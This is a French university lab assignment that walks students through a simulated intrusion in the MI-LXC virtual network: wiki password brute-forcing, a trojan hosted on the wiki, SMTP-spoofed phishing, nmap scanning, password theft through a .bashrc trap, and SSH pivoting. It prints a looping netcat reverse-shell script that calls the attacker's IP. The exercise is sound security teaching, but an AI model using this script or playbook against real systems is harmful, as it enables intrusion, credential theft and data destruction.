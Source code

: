 # TP 1 : Intrusion

_François Lesueur ([francois.lesueur@insa-lyon.fr](mailto:francois.lesueur@insa-lyon.fr))_

Ce TP sera réalisé dans la VM MI-LXC disponible [ici](filesender). Vous devez vous y connecter en root/root. L'infrastructure déployée simule plusieurs postes dont un SI d'entreprise (firewall, DMZ, intranet, authentification centralisée, serveur de fichiers, quelques postes de travail interne de l'entreprise _Target_), une machine d'attaquant (isp-a-hacker) et quelques autres servant à l'intégration de l'ensemble. La compréhension plus fine du SI de l'entreprise ciblée fait partie des objectifs du TP.

> Pour les curieux, le code de MI-LXC, qui sert à générer cette VM automatiquement, est disponible avec une procédure d'installation documentée [ici](https://github.com/flesueur/mi-lxc)

<!--  ou dans la VM "tp-sec-debian" disponible en salle de TP (`/machines_virtuelles/secu_vms/master/tp-sec-debian.sh`, debian/debian et root/root). L'infrastructure déployée simule plusieurs postes dont un SI d'entreprise (firewall, DMZ, intranet, authentification centralisée, serveur de fichiers, quelques postes de travail interne), une machine d'attaquant (hacker) et quelques autres servant à l'intégration de l'ensemble. La compréhension plus fine du SI de l'entreprise ciblée fait partie des objectifs du TP. -->


Vous devez vous connecter à la VM en root/root. MI-LXC est déjà installé et l'infrastructure déployée, il faut avec un terminal aller dans le dossier `/root/mi-lxc`. Pour démarrer l'infrastructure, tapez `./mi-lxc.py start`. Une fois l'environnement démarré, la seule machine à utiliser est évidemment celle du hacker, affichable avec la commande `./mi-lxc.py display isp-a-hacker`. Ceci lance un affichage sur la machine du hacker (avec l'outil "Xephyr"). Si la souris reste bloquée dans cette fenêtre, appuyez sur CTRL+SHIFT pour la libérer.

> Dans la VM et sur les machines MI-LXC, vous pouvez installer des logiciels supplémentaires. Par défaut, vous avez mousepad pour éditer des fichiers de manière graphique. La VM peut être affichée en plein écran. Si cela ne fonctionne pas, il faut parfois changer la taille de fenêtre manuellement, en tirant dans l'angle inférieur droit, pour que VirtualBox détecte que le redimensionnement automatique est disponible. Il y a une case adéquate (redimensionnement automatique) dans le menu écran qui doit être coché. Si rien ne marche, c'est parfois en redémarrant la VM que cela peut se déclencher. Mais il *faut* la VM en plein écran.


Déroulement général
===================

Votre objectif est de voler et détruire les informations internes de l'entreprise _Target_ (données comptables, base clients). Pour ce faire, vous travaillerez exclusivement sur la machine du hacker. Une première reconnaissance vous a amené à savoir que votre cible héberge un wiki sur `http://www.target.milxc`. Vous devrez réaliser les étapes suivantes :

* Récupération d'une adresse mail interne sur le wiki
* Altération du wiki en y intégrant un cheval de Troie prêt à être téléchargé par un interne
* Manipulation du commercial pour lui faire installer ce cheval de Troie (via un téléchargement interne donc plus crédible qu'une pièce jointe)
* Utilisation du cheval de Troie pour scanner le réseau interne
* Pivot vers la machine hébergeant les données ciblées
* Transfert puis suppression des données comptables et de la base clients
* Profit $$$

Le fil proposé ne couvre bien sûr pas l'ensemble des possibilités mais vise à montrer la diversité des moyens qu'un attaquant peut mettre en œuvre.

Préparation du cheval de Troie
==============================

Pour contrôler la machine du commercial, nous allons créer puis transmettre un cheval de Troie. Notre but est d'obtenir un shell sur la machine du commercial afin de l'utiliser comme pivot. Cependant, comme le firewall n'autorise pas les connexions vers l'intérieur de l'entreprise, nous allons plus spécifiquement envoyer un reverse-shell : c'est la machine du commercial qui initiera la connexion vers la machine du hacker.

Le code exemple suivant est disponible sur la machine du hacker (`/home/debian/tp/intrusion/trojan.sh`) :
```
#!/bin/bash
while [ 1 ]; do
	/bin/nc <IP Hacker> <Port Hacker> -q0 -e /bin/bash;
	sleep 1;
done
```

* Étudiez ce petit script, son fonctionnement, le programme nc (netcat). Pourquoi y a-t-il une boucle infinie ?
* Configurez et manipulez ce script en local pour ouvrir un reverse-shell avec vous-mêmes.
* Il existe plusieurs façons d'améliorer le shell obtenu (interactivité, gestion Ctrl-C, sortie d'erreur, autocomplétion, etc.), vous pouvez par exemple remplacer nc par socat comme expliqué [ici](https://artkond.com/2017/03/23/pivoting-guide/#beutifying-your-web-shell) ou appeler nc dans rlwrap.

> Une fois ce point compris, signalez-vous à un enseignant pour en discuter de vive voix

Altération du wiki
==================

Le wiki est accessible publiquement mais une authentification est nécessaire pour lire et écrire. Vous disposez dans le dossier `/home/debian/tp/intrusion` d'un script `dokuwiki.py` pour tenter de _bruteforcer_ l'authentification. Étudiez son fonctionnement puis tentez de découvrir un accès. Pour vous aider, des listes de mots de passes communs sont disponibles sur internet ([Wikipedia](https://en.wikipedia.org/wiki/Wikipedia:10,000_most_common_passwords)), un dictionnaire au format adapté au script fourni est proposé [ici](passwords.txt). À partir de cet accès, créez une page crédible (mise à jour, installation d'un logiciel, etc.), intégrant le `.sh` que vous aurez préparé comme reverse-shell.


Corruption de la machine du commercial
======================================

Vous devez maintenant amener le commercial à exécuter votre cheval de Troie sur sa machine. Vous devez faire attention à envoyer un mail crédible, social-engineering, qui pousse le commercial à suivre les instructions. Notamment, pensez à faire du SMTP spoofing en changeant votre identité d'expéditeur. Dans un cas réel, il suffirait qu'un seul employé installe le cheval de Troie pour que l'attaque fonctionne

Appelez l'enseignant pour jouer le rôle du commercial, vérifiez le fonctionnement.

> Si un problème technique empêche l'enseignant de réaliser cette partie, vous devez afficher la machine target-commercial en tant que commercial : `./mi-lxc.py commercial@target-commercial`, puis aller lire les mails et réaliser les tâches demandées (le mail envoyé depuis le hacker doit apparaître ici).

Scan du réseau interne
======================

Il vous faut maintenant explorer le réseau pour trouver votre cible. Le programme `nmap` est un scanner réseau, installé sur la machine du hacker mais bien sûr pas du commercial. Il faut donc le transférer pour l'exécuter depuis la machine du commercial. Un serveur web est installé sur la machine du hacker et `nmap` est disponible dans le dossier `/usr/bin`. Le dossier `/var/www/html` du hacker est partagé par un serveur web, le programme en ligne de commande `wget` peut être utilisé côté commercial pour télécharger depuis ce dossier.

Utilisez maintenant nmap sur la machine du commercial pour explorer le réseau interne : `./nmap <adresse de réseau/masque>`. Dessinez un plan de réseau, les services ouverts, les logiciels utilisés, les sites accessibles. Soyez pertinent dans les adresses IP scannées, le scan est assez long.

> Pour connaître l'IP de la machine commercial : `/sbin/ifconfig`, utilisable en non-root pour la consultation des paramètres. Vous verrez que c'est un /16, la partie intéressante est au début de ce /16 : comme le scan est long, scannez plutôt les premiers /24.


Récupération d'un mot de passe valide
=====================================

Pour aller plus loin, vous aurez besoin d'un mot de passe valide sur le SI. Vous pouvez obtenir celui du commercial à partir de l'[analyse de son profil ClawsMail par exemple](https://github.com/AlessandroZ/LaZagne), en ajoutant un piège à son `.bashrc` lui demandant de retaper son mot de passe ou encore en intégrant la saisie lors du lancement du cheval de Troie.

Accès à la machine cible
========================

Pivotez vers la machine hébergeant les données ciblées. Pour faire du SSH, vous aurez besoin d'un shell [amélioré](https://artkond.com/2017/03/23/pivoting-guide/#beutifying-your-web-shell) ou d'utiliser [sshpass](https://srvfail.com/how-to-provide-ssh-password-inside-a-script-or-oneliner/) (disponible sur la machine du commercial). Vous pouvez ensuite utiliser la commande `find` avec les bons arguments pour trouver, sur cette machine cible, les fichiers sur lesquels vous pourriez avoir des droits en écriture.


Bonus
=====

Il existe un chemin d'attaque, qui sera plus difficile à contrôler côté firewall, qui rebondit par la machine `dev`...


Ouverture
=========

[_Ransomwares : quel mode opératoire en 2020 ?_, Amossys](https://blog.amossys.fr/ransomware-2020.html)

Disclaimer
==========

![Bad guy](media/bad.jpg)
_Attention, lui, il l'a fait pour de vrai..._
